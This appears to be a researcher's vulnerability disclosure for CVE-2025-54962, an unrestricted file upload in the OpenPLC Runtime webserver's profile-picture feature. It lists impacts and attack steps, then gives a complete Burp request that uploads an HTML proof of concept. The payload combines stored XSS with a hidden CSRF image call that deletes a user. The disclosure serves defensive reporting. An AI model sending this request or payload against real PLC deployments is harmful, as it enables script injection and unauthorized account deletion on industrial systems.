  
# 🔥 CVE-2025-54962-Insecure File Upload in OpenPLC Runtime Webserver

## 📌 Summary

I discovered a vulnerability in the OpenPLC Runtime webserver (released version: 2024-12-31) that allows authenticated users to upload arbitrary files (e.g., `.html`, `.svg`) as profile pictures. These files are stored in the `/static/` directory and are accessible **without authentication**, enabling stored XSS or malicious hosting scenarios.

---

## 🧪 Affected Component

- Route: `/edit-user`
- Affected: File upload functionality for profile images

---

## ⚠️ Impact

- Arbitrary file upload with insufficient MIME and extension validation
- Stored XSS
- Malicious content hosting
- Unauthenticated access to uploaded files
- CSRF 

---

## 🎯 Attack Vector

1. Authenticated user uploads a `.html` or `.svg` file as a profile picture.
2. File is stored in `/static/` and given a predictable ID (e.g., `http://localhost:8080/static/336029.html`)
3. Any user (even unauthenticated) can access the uploaded file directly.
4. If the file contains JavaScript or other malicious code, it will execute in the victim’s browser.

---

## 📸 Visual Proof of Concept

### Dashboard when PLC is running
![dashboard.png](./dashboard.png)

### Uploading a malicious `.html` file
![choose file.png](./choose%20file.png)

### Using "All Files" to bypass image filter
![file.png](./file.png)

### Uploaded file executed from `/static/`
![poc.png](./poc.png)

---

## 🎞️ Video PoCs

- **Basic PoC demo**  
   [`poc de base.mp4`](https://github.com/user-attachments/assets/03b940c0-db32-49ec-ac9b-adebc3797e25)

- **Unauthenticated access demonstration**  
   [`unauthenticated.mp4`](https://github.com/user-attachments/assets/9133f961-1aaf-4223-a3e9-26311774e0ad)

- **CSRF PoC**  
   [`poc csrf.mp4`](https://github.com/user-attachments/assets/36960ecd-b62a-4e76-b381-542ad424e726)

---

## 📤 Exploit Request Example with Burp Suite Repeater

```http
POST /edit-user HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1397
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: [OpenPLC URL]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW3GoLRyFS7dyLS2B
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/edit-user?table_id=10
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=[cookie]
Connection: close

------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_id"

10
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="full_name"

OpenPLC User
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_name"

openplc
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_email"

openplc@openplc.com
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_password"

mypasswordishere
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="file"; filename="poc cve.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>PoC – Unfiltered Upload</title>
</head>
<body>
  <h1>Proof of Concept</h1>

  <p>Payload uploaded on vulnerable endpoint. If filtering is broken, executing script below proves stored XSS.</p>

  <h2>XSS Demo (auto-executed)</h2>
  <script>alert('PoC xss')</script>

  <h2>CSRF</h2>
  <img src="http://127.0.0.1:8080/delete-user?user_id=[User ID]" style="display:none" />

  <h2>document.domain</h2>
  <p>Opened from: <script>document.write(document.domain)</script></p>

  <h2>Manual link to malicious HTML</h2>
  <a href="https://google.com/" target="_blank">Click to redirect on google.com</a>
</body>
</html>

------WebKitFormBoundaryW3GoLRyFS7dyLS2B--
